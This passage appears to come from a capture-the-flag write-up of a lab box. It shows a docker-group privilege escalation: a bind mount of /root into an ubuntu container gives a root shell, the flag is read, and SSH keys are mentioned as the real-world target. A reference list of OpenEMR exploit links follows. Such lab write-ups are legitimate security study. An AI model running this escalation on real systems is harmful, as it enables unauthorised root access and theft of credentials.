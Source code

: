 
1. Enumerating the box as user ash gives is nothing really to go on. So instead I went back to luffy to investigate, especially the
   group 999(docker) which I've never seen before. Googling about docker groups tells us there are an easy exploit where we can mount
   a folder/file to a container and/or image.

   Looking at our box we don't have any containers, however we do have the ubuntu image which we can use for our exploit.

   luffy@cache:/dev/shm$ docker container ls
    CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES

   luffy@cache:/dev/shm$ docker image ls
    REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
    ubuntu              latest              2ca708c1c9cc        8 months ago        64.2MB


   Next, we mount the directory /root to our docker image /mnt directory, to extract root.txt and in a real life scenario SSH-keys.

   luffy@cache:/dev/shm$ docker run --help
      ..
      -i, --interactive                    Keep STDIN open even if not attached
      -t, --tty                            Allocate a pseudo-TTY
      -v, --volume list                    Bind mount a volume

   luffy@cache:/dev/shm$ docker run -v /root:/mnt -it ubuntu
   root@30194c706a68:/# id
      uid=0(root) gid=0(root) groups=0(root)
   root@30194c706a68:/# cd /mnt/
   root@30194c706a68:/mnt# ls -al
      ..
      -rw------- 1 root root   33 Jun  5 07:27 root.txt
   root@30194c706a68:/mnt# cat root.txt
      ca89fe2e56238df32bac7edc90488959


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

OpenEMR:
  https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf
  https://www.databreaches.net/openemr-patches-serious-vulnerabilities-uncovered-by-project-insecurity/
  https://www.exploit-db.com/exploits/45161

Memcached:
  https://medium.com/@noobintheshell/htb-dab-writeup-6459329737d0

Docker privesc:
  https://www.hackingarticles.in/docker-privilege-escalation/
